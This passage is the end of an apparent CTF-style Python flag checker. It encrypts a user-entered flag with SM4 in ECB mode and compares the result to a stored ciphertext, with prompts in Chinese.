		          gmsm4.set_key(encrypt_key.encode(), sm4.SM4_ENCRYPT)
		          padded_value = pad_pkcs7(value.encode())
		          encrypt_value = gmsm4.crypt_ecb(padded_value)
		          return base64.b64encode(encrypt_value)
		  
		  
		  if __name__ == '__main__':
		      print('请输入你的flag:')
		      flag = input()
		      sm4_instance = SM4()
		      flag_1 = sm4_instance.encryptSM4(key, flag)
		      if flag_1 != enc:
		          print('flag错误!!')
		      else:
		          print('恭喜你获得flag😊😀')
		  ```
-